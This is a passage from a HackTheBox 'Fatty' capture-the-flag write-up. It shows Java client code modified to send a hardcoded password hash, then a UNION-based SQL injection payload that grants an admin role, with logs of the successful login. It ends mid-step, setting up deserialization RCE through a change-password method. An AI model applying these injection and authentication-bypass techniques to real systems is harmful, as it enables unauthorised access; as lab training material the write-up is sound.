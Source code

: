 ```java
```

Then found out I could send the hashed string of my choice directly modifying client side code.

Below is the code used to pass the hashed password instead of the generated in User.user method `src/htb/fatty/shared/message/LoginMessage.java`

```java
  public void send(OutputStream output) throws MessageBuildException, IOException {
    String transfer = this.user.getUsername() + ":" + "5A67EA356B858A2318017F948BA505FD867AE151D6623EC32BE86E9C688BF046";

    setPayload(transfer.getBytes());
    byte[] message = getBytes();
    output.write(message);
  }
}
```

All this information was after hours of debugging locally, this write up is not a step by step guide but rather a how to do some parts. You might need to investigate a bit more the code to fully understand and fix the code.

The payload used on username during logging was this, password field could be left empty as we hardcoded the hash in code.

The payload will return looked up server side data from the database and hardcode a role value with `'admin'`, this way we got admin role on the app without breaking other people fun changing content on the database.

```sql
' UNION SELECT all id,username,email,password,'admin' from users where username='qtc
```

And we got a successful login with admin privileged.

```bash
[AWT-EventQueue-1] INFO  infoLogger  - [+] Connection process finished.
[AWT-EventQueue-1] INFO  infoLogger  - ' UNION SELECT all id,username,email,password,'admin' from users where username='qtc
[AWT-EventQueue-1] INFO  infoLogger  - E42C818F80D72ED7E5752AE36777F97628942A23B8F4BBDA3C1A9068409549A9
[AWT-EventQueue-1] INFO  infoLogger  - ' UNION SELECT all id,username,email,password,'admin' from users where username='qtc:5A67EA356B858A2318017F948BA505FD867AE151D6623EC32BE86E9C688BF046
[AWT-EventQueue-1] INFO  infoLogger  - [+] Login successful!
```

## Java object serialization + RCE

Reviewing server side code was very clear that RCE was through object de-serialization on changePW method but the method was not fully implemented in client side code.

Now is time to make the client change password work to pass a new password in the client GUI `src/htb/fatty/client/gui/ClientGuiTest.java`

```java
    pwChangeButton.addActionListener(new ActionListener()
    {
      public void actionPerformed(ActionEvent e) {
        String response = "";
        String new_pass =  textField_2.getText();
        try {
          response = ClientGuiTest.this.invoker.changePW(ClientGuiTest.this.currentFolder, new_pass);
        } catch (MessageBuildException|htb.fatty.shared.message.MessageParseException e1) {
          JOptionPane.showMessageDialog(controlPanel, "Failure during message building/parsing.", "Error", 0);

        }
```